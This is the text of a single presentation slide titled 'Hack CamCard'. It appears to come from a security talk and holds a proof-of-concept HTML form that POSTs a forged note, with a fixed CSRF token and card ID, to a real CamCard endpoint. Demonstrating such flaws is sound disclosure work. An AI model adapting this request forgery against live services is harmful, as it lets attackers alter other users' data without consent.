

12
# Hack CamCard
<form method="POST" name="form0" action="https://www.camcard.com:443/note/save?_script_key=1">
<input name="card_id" value="6CF3E53BB5114327VY9PK7WX.vcf"/>
<input name="json" value='[{"Type":0,"Time":1504594222.804,"Content":"testtest"}]'/>
<input name="YII_CSRF_TOKEN" value="a7f7b8c135d9c0fce13517da79286111"/>
<input type="submit" value="Submit" />
</form>